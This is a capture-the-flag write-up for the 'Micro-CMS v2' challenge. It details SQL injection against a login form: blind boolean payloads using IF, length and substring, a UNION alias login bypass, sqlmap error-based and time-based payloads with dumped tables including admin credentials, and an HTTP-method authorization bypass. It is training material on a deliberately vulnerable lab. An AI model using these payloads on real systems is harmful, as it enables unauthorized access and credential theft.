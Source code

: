 # Micro-CMS v2

## Difficulty: Moderate

## About

This CTF challenge involved a login form vulnerable to SQLi, which is exploited to gain account access.

There are 3 flags to capture from 0-2.

## FLAG2

Navigating the site, pages 1-3 exist, but page 3 (```/page/3```) shows a permission error and all links lead eventually to the login page:

![Login](imgs/1_mcms2.jpg "Login")

Enter a single quote ```'``` into the ```Username:``` field shows that it is vulnerable to SQLi and provides a useful error message:

>Traceback (most recent call last):
>  File "./main.py", line 145, in do_login
>    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
>  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
>    self.errorhandler(self, exc, value)
>  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
>    raise errorvalue
>ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual >that corresponds to your MariaDB server version for the right syntax to use near >''''' at line 1")

The query used is ```SELECT password FROM admins WHERE username=\'%s\''``` and the DBMS is MySQL.

Before using sqlmap, try exploit it manually, which is less intrusive and can yield different results, some of which sqlmap may miss.

Entering Username: ```'-- ``` yields an ```Unknown user``` error. Entering Username ```' or 1=1-- ``` yields an ```Invalid password``` error.

These error messages can be exploited to find valid usernames and passwords. E.g. to determine the length of the password of a valid password:

Username: ```' or IF(length(password)<10, TRUE, FALSE)-- ```

This query results in error message ```Invalid password```, indicating that the ```IF``` statement returned true, which confirms that the length of the password is less than 10. Similarly, if the error message ```Unknown user``` is shown, it indicates that the ```IF``` statement returned false. Using this query, it is deduced that the length of the password is ```7```.

Now, each character in the password can similarly be found using the ```substring()``` function: ```' or IF(substring(password,1,1)='x', TRUE, FALSE)-- ```. Here, the first character in the password is tested to see if it equals ```'x'```. By testing all characters until character 7 (the length found earlier) and seeing if the ```Invalid password``` error is shown to see if the character is correct, the password can be found. Write a script or use Burp Intruder to automate this. 

E.g. find the first character with ```' or IF(substring(password,1,1)='TEST_CHAR_HERE', TRUE, FALSE)-- ```, the second character with ```' or IF(substring(password,2,1)='TEST_CHAR_HERE', TRUE, FALSE)-- ```, and so on until ```(substring(password,7,1)```.

Doing this deduced the password, and upon using it to logon, yielded ```FLAG2```.

#### FLAG2 is captured.

## FLAG0

(Alternate solution than what follows: Upon reviewing the hints, it suggests using a ```UNION``` injection. Therefore, ```UNION``` can be leveraged with keyword ```AS``` to get password from an alias rather than from the actual table e.g. Username: ```' UNION SELECT '1234' as password-- ``` and Password: ```1234``` successfully logs in and allows the viewing of private ```/page/3```. This is much simpler than the exploit that sqlmap found.)

The ```IF``` statement query used to find ```FLAG2``` can be exploited further on ```information_schema.tables``` to get the names of databases and tables using columns ```TABLE_SCHEMA``` and ```TABLE_NAME```, but given the large search space this would be very time consuming.

So to save time, try sqlmap on the login form with ```--risk=3``` to try to find a better exploit, which found:

>Parameter: username (POST)
>    Type: error-based
>    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
>    Payload: username=yZPi' AND (SELECT 7245 FROM(SELECT COUNT(*),CONCAT(0x716a767a71,(SELECT (ELT(7245=7245,1))),0x71766b7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'zGLM'='zGLM&password=
>
>    Type: time-based blind
>    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
>    Payload: username=yZPi' AND (SELECT 6535 FROM (SELECT(SLEEP(5)))ExUj) AND 'cIlM'='cIlM&password=

Two exploits found: One exploit leverages the error message, the other leverages a blind time-based query to deduce data. Use these to dump to DBs:

>web server operating system: Linux Ubuntu
>web application technology: Nginx 1.14.0
>back-end DBMS: MySQL >= 5.0
>available databases [4]:
>[*] information_schema
>[*] level2
>[*] mysql
>[*] performance_schema
>
>Database: level2
>Table: admins
>[1 entry]
>+----+----------+----------+
>| id | username | password |
>+----+----------+----------+
>| 1  | shayna   | tanesha  |
>+----+----------+----------+
>
>Database: level2
>Table: pages
>[3 entries]
>+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+
>| id | body                                                                                                                                                                                                                                                                                                                           | title               | public |
>+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+
>| 1  | ## Version 2\\nThis version fixed the multitude of security flaws and general functionality bugs that plagued v1.  Additionally, we added user authentication; we're still not sure why we didn't think about that the first time, but hindsight is 20/20.  By default, users need to be an admin to add or edit pages now.\\n | Micro-CMS Changelog | 1      |
>| 2  | Just testing some markdown functionality.\\n\\n\!\[adorable kitten](https://static1.squarespace.com/static/54e8ba93e4b07c3f655b452e/t/56c2a04520c64707756f4267/1493764650017/)\\n\\n<button>Some button</button>                                                                                                                 | Markdown Test       | 1      |
>| 3  | My secret is **FLAG0**                                                                                                                                                                                                                                      | Private Page        | 0      |
>+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+

DB ```level2``` contains the contents of each page, including the private page ```/page/3``` which contains FLAG0.

#### FLAG0 is captured.

## FLAG1

Hints state:
- Just because request fails with one method doesn't mean it will fail with a different method
- Different requests often have different required authorization

This seems to point to HTTP methods. Try changing the method on pages that require authorization e.g.

Change ```GET /x/page/edit/2 HTTP/1.1``` to ```POST /x/page/edit/2 HTTP/1.1```

#### FLAG1 is captured.

All flags captured
=====
